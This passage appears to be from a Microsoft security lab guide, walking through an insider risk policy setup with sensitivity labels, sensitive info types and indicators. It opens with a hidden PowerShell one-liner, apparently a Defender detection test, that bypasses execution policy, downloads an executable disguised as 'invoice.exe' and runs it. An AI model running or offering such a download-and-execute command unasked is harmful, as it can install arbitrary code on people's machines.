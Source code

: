 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```

5.  Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image122.png)

6.  On the **Choose users, groups, & adaptive scopes** page, select **All users, groups, & adaptive scopes**. Select **Next** to continue.

7.  On the **Exclude users, groups, & adaptive scopes** page, select **Next**.

9.  On the **Decide whether to prioritize** page, select **I want to specify
    priority content**. Select the check box for **Sensitivity
    labels** and **Sensitive info types**. Select **Next** to continue.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image123.png)

9.  On the **Sensitivity labels to prioritize** page, select **Add or edit
    sensitivity labels**. On the flyout pane, select **Internal/Employee
    data (HR)** and select **Add**. Then click **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image124.png)

10.  On the **Sensitive info types to prioritize** page, select **Add or edit
    sensitive info types**. On the flyout pane, search for and
    select **Credit Card Number**, **Contoso Employee ID** and **Contoso Employee
    EDM**. Select **Add**. Then click **Next**.

![A screenshot of a computer Description automatically
generated](./media/image125.png)

11.  On **Decide whether to score only activity with priority content**,
    select **Get alerts for all activity**. Select **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image126.png)

12.  On triggers for this policy page, select the default and then
    select Next.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image127.png)

13.  On **Indicators** page, select **Turn on indicators** from the
    prompt.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image128.png)

14. Select **Select all under Office indicators** and click **Save**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image129.png)

15. Select all the options and click on **Next**.

![A screenshot of a computer Description automatically
generated](./media/image130.png)

16. On **Detection options** page, select the default and then
    select **Next**.
```